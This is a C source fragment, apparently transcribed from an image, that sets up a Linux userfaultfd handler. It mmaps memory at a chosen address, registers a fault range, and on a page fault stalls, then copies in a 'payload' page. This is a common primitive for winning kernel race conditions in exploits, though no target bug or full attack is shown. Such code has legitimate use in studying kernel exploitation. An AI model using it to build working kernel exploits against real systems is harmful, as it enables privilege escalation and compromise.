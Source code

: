 ```c

    nread = read(uffd, &msg, sizeof(msg));
    if (msg.event != UFFD_EVENT_PAGEFAULT)
        perr("[-] not a page fault event");
    printf("[*] trigger uf address: 0x%llx\n", msg.arg.pagefault.address);

    // copy our payload
    unsigned char buf[0x1000] = {0};
    buf[0] = payload[0];

    uffdio_copy.src = (unsigned long) buf;
    uffdio_copy.dst = (unsigned long) msg.arg.pagefault.address &
                                                ~(page_size - 1);
    uffdio_copy.len = page_size;
    uffdio_copy.mode = 0;
    uffdio_copy.copy = 0;

    sleep(1);
    if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1)
        perr("[-] uffd copy failed");

    printf("[*] uffdio_copy.copy returned %lld\n", uffdio_copy.copy);
}

void setup_uf(unsigned long base_addr, unsigned long size, unsigned offset)
{
    int tid;
    long uffd;
    pthread_t thr;
    struct uffdio_api uffdio_api;
    struct uffdio_register uffdio_register;

    // create new uffd
    page_size = sysconf(_SC_PAGE_SIZE);
    uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    if (uffd == -1)
        perr("[-] create uffd failed");

    // enable uffd object
    uffdio_api.api = UFFD_API;
    uffdio_api.features = 0;
    if (ioctl(uffd, UFFDIO_API, &uffdio_api) == -1)
        perr("[-] enable uffd failed");

    // allocate memory for uffd
    addr = (char *) mmap((void *) base_addr, size, PROT_READ | PROT_WRITE,
                               MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (addr == MAP_FAILED)
        perr("[-] mmap failed");
    printf("[+] mmap address = %p\n", addr);

    // register uffd
    uffdio_register.range.start = (unsigned long) addr + offset;
    uffdio_register.range.len = size;
    uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == -1)
        perr("[-] uffd register failed");

    // create monitor thread
    tid = pthread_create(&thr, NULL, uf_handler, (void *) uffd);
    if (tid != 0)
        perr("[-] create thread failed");
}
```